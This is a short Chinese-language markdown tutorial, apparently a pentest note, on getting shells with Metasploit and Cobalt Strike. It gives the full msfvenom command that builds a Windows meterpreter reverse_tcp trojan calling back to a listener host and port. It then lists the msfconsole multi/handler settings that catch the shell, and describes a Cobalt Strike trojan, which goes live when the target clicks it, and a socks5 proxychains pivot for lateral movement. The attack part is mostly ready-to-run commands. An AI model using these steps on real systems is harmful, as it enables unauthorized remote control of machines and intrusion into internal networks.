




# MSF生成木马取得shell

 

## 生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.116 lport=4545 -f exe -o 456.exe
```

> 使用`msfvenom`
>
>  -p 为 paylaod 
>
>  -f 为指定生成为exe文件
>
>  -o 为指定文件名字


## msf开启监听端口

```
msfconsole					//进入模块
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.116
set lport 4545
run
```



> 进入后输入`shell`可进入终端


# CS生成木马取得shell和内网横向代理


## 生成木马取得shell


> 选择好监听器生成即可，目标点击就上线（目标能访问到服务端）


## 内网横行代理





选择socks5，然后开启

在cs的服务端，编辑 `vim /etc/proxychains.conf`,在文末添加socks5代理服务器，且相对应的端口



> 然后即可用proxychains代理各种kali的工具运行


# cs与msf联动


